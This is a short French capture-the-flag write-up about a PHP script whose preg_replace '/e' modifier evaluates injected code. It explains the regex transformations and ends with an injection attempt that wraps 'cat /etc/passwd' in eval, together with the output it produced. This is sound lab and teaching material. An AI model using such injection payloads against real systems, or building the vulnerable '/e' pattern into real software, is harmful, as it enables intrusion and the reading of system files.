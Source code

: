 ## Démarche

```
ls
```
> level06  level06.php

```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

```
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

> ./level06

> PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

!!!
> The e modifier is a deprecated regex modifier which allows you to use PHP code within your regular expression. This means that whatever you parse in will be evaluated as a part of your program.
------------------

**Pour x(y, z)**

1. `(\[x (.*)\])` devient `y("\2")`
    - ex : `([x coucou])` -> `(y("coucou"))`
2. `[` devient `(`
3. `]` devient `)`

Donc, `[x coucou]` -> `[y("coucou")]`

**Pour y(m)**

1. `.` devient ` x `
2. `@` devient ` y`
   
Par exemple
    `[x .+@]` -> ` x + y`
   
-----

```
echo "[x eval("cat /etc/passwd");]" > /tmp/test06
./level06 /tmp/test06
```
> eval(cat /etc/passwd);

## Ressources

- php beautifier
- regexp
- https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
